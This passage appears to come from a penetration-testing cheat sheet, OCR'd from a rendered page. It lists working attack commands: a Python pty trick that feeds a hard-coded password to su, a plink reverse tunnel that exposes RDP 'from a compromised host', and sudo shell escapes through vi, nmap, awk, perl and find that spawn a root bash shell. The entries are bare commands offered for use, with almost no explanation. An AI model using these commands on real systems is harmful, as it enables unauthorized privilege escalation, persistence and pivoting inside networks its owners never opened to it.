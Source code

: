<span id="anchor-92"></span>Python Sudo w/o TTY

|                                                                                                                                                                                                                                                                 |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(\["/bin/su","-c","id","bynarr"\],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\\n");time.sleep(0.1);print os.read(master,1024);' |

<span id="anchor-93"></span>RDP Via Plink Tunnel
([*https://www.chiark.greenend.org.uk/\~sgtatham/putty/latest.html*](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html))

From Remote/Compromised Host

|                                                                                                           |
| --------------------------------------------------------------------------------------------------------- |
| plink.exe \<user\>@\<ip or domain\> -pw \<password\> -P 22 -2 -4 -T -N -C -R 0.0.0.0:12345:127.0.0.1:3389 |

<span id="anchor-94"></span>Shell Escapes (Linux w/sudo)

<span id="anchor-95"></span>vi(m)

|       |
| ----- |
| :\!sh |

|                            |
| -------------------------- |
| :set shell=/bin/bash:shell |

<span id="anchor-96"></span>nmap --interactive

|      |
| ---- |
| \!sh |

<span id="anchor-97"></span>awk

|                                       |
| ------------------------------------- |
| awk 'BEGIN {system(\\"/bin/bash\\")}' |

<span id="anchor-98"></span>perl

|                                 |
| ------------------------------- |
| perl -e 'exec \\"/bin/bash\\";' |

<span id="anchor-99"></span>find

|                                                                   |
| ----------------------------------------------------------------- |
| find / -exec /usr/bin/awk 'BEGIN {system(\\"/bin/bash\\")}' \\\\; |

<span id="anchor-100"></span>X Server Hacks
